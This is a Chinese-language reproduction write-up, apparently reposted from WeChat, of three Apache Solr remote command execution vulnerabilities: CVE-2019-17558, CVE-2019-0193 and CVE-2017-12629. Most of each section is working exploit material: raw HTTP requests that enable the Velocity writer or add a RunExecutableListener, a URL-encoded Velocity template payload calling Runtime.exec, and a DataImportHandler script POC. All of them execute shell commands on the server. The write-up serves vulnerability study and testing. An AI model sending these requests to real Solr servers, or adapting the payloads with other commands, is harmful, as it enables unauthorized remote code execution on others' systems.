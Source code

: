 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/ada8r5iEDGqXlHmKwfyHdQ)

Apache Solr Velocity 注入远程命令执行漏洞 (CVE-2019-17558)  
漏洞描述

```
Solr是Apache Lucene项目的开源企业搜索平台。其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成，以及富文本的处理。2019年10月30日，国外安全研究人员放出了一个关于solr 模板注入的exp，攻击者通过未授权访问solr服务器，发送特定的数据包开启 params.resource.loader.enabled，然后get访问接口导致服务器命令执行。


```

影响版本  
5.0.0 到 8.3.1 版本

漏洞复现  
默认情况下 params.resource.loader.enabled 配置未打开，无法使用自定义模板。我们先通过如下 API 获取所有的核心：

```
http://127.0.0.1:8983/solr/admin/cores?indexInfo=false&wt=json


```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFZRbcAVrHmABucAQg4MaDQ6F39aCRFbRO1iaOBib1Cw7LHBxKLXQbT2iaQ/640?wx_fmt=png)

通过如下请求开启 params.resource.loader.enabled，其中 API 路径包含刚才获取的 core 名称：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFTlaBA3faTYV8XLnVJcrMH1hIDk3p2MPCO3cJT9ne9NgLicYXeCiaR5Xw/640?wx_fmt=png)

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}


```

之后，注入 Velocity 模板即可执行任意命令：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+\[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end


```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFKNmiaZgNCnfcyDJM462ZOoMEwbiaonp1mVlzUj5BkcHCSkLmRJfPzicCw/640?wx_fmt=png)

Apache Solr 远程命令执行漏洞 (CVE-2019-0193)  
漏洞描述

```
2019年8月1日，Apache Solr官方发布了CVE-2019-0193漏洞预警，漏洞危害评级为严重。当solr开启了DataImportHandler功能，该模块中的DIH配置都可以通过外部请求dataconfig参数进行修改，DIH可包含脚本，因此，会存在远程代码执行漏洞。


```

影响范围  
Apache Solr < 8.2.0

漏洞复现  
搭建完成

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFicCbLy5Yyo8icz68aJCGh356MP0mKu0WMrNJ8pDUMicAd8jSxKzIRMjNw/640?wx_fmt=png)

通过接口来获取所有 core 信息，因为我们构造 payload 需要 name 信息。  
http://127.0.0.1:8983/solr/admin/cores

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFeLetK6cnNMRQicvYKxdBbO7pBHwHlETcf0pg2mzmB8ErmiajIYV2QpLA/640?wx_fmt=png)

如上图所示，首先打开刚刚创建好的 test 核心，选择 Dataimport 功能并选择 debug 模式，填入以下 POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><!\[CDATA\[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  \]\]></script>
  <document>
    <entity 
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>


```

点击 Execute with this Confuguration 会发送以下请求包：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFbAb0fJO9nNJr7xQIacIuDicm12O1ib6Yp7VqjwYic9AiaoBU4aS5Wt5OicA/640?wx_fmt=png)

```
POST /solr/test/dataimport?\_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, \*/\*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport


```

可见 / tmp/success 已成功创建：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFRNehXO0DdRJv4X72XgsicKv8f4AHYKnw5K2wyUScycgSYRgfR8AvLaA/640?wx_fmt=png)

Apache Solr 远程命令执行漏洞（CVE-2017-12629）  
漏洞简介

```
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。


```

漏洞复现  
首先创建一个 listener，其中设置 exe 的值为我们想执行的命令，args 的值是命令参数：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFOaY3kDM3LOd9ynbkFz0VB1dYVBk8tEW8kL1GBDiaMEvzhUVfibufMJdQ/640?wx_fmt=png)

```
POST /solr/demo/config HTTP/1.1
Host: target ip
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":\["-c", "touch /tmp/success"\]}}


```

然后进行 update 操作，触发刚才添加的 listener：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IFo2r7sHJw6PwOtqYhiayB5BEm40Aw2ZqTNyuf45g0ejnoILJvHia7KOrg/640?wx_fmt=png)

```
POST /solr/demo/update HTTP/1.1
Host: target ip
Accept: \*/\*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

\[{"id":"test"}\]


```

进入容器，可见 / tmp/success 已成功创建：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDD5Gxzia3k2HBYVlxf94O7IF4Ruj0vibYz1VLo0KyRNibBkos0NU8klY8yEmpCPTQkL8FXV6rYwY8rmQ/640?wx_fmt=png)